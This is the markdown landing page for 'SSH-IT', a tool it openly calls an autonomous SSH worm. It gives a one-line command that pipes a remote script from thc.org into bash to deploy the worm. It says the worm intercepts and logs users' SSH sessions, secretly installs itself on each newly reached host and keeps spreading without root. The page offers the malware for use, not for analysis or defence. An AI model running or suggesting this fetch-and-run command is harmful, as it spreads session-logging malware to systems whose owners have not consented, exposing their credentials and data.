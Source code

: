 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/ssh-it/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) and check out [GitHub](https://github.com/hackerschoice/ssh-it) for more information.

## Contact

{% include contact-details.md %}



